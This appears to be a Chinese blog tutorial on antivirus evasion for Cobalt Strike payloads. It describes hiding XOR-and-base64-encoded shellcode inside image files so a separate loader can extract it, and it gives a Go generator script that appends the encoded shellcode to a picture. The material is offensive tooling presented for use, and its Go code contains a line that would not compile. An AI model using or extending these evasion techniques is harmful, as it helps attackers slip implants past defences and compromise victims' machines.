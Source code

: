 CS 免杀学习
=======

前言
--

一直没有用go写过免杀，但是看github的很多BypassAV项目很多都是使用golang进行开发免杀，因此这里也是通过学习一种免杀的思路--分离免杀的方式来实践一下，其实免杀思路也是很简单，鉴于目前杀毒软件仍旧以特征库为主，将病毒代码体(shellcode)和执行体(loader)分离，从而规避特征免杀达到免杀的目的

项目地址:<https://github.com/crisprss/sucksAV>

shellcode加载到图片中
---------------

至于加密方式，这里使用最简单的异或加密，即将`shellcode`以异或的方式嵌入到图片文件中，最后加载出来时再通过异或的方式解密得到原始的`shellcode`

因此我们首先需要一个用于生成图片马，得到图片马之后还需要保证我们的图片在远程的时候是没有被压缩的，否则shellcode很可能就提取不出来导致无法成功上线

这里贴下简单的`generate.go`:

```golo=
package main

import (
    "encoding/base64"
    "fmt"
    "os"
)

const (
    KEY_1 = 22 //第一次异或的KEY
    KEY_2 = 44 // 第二次异或的KEY
)

func main() {
    var xor_shellcode []byte
    xor_shellcode = []byte{"java_shellcode"}
    var shellcode []byte
    for i := 0; i < len(xor_shellcode); i++ {
        //这里将真正的shellcode进行异或加密再给shellcode切片
        shellcode = append(shellcode, xor_shellcode[i]^KEY_1^KEY_2)
    }
    //进行base64加密 准备写入jpeg中
    encodeBaseStr := base64.StdEncoding.EncodeToString(shellcode)
    fileName := os.Args[1]
    if len(fileName) == 0 {
        fmt.Println("[-]usage:run generate.go pic_path")
        os.Exit(0)
    }
    //创建一个文件并且追加内容
    f, err := os.OpenFile(fileName, os.O_CREATE|os.O_RDWR|os.O_APPEND, os.ModeAppend|os.ModePerm)
    if err != nil {
        fmt.Println(err)
    }
    //将异或加密并且base64后的shellcode追加写入到图片最后
    f.WriteString(encodeBaseStr)
    f.Close()
    fmt.Println("write success")
}
```
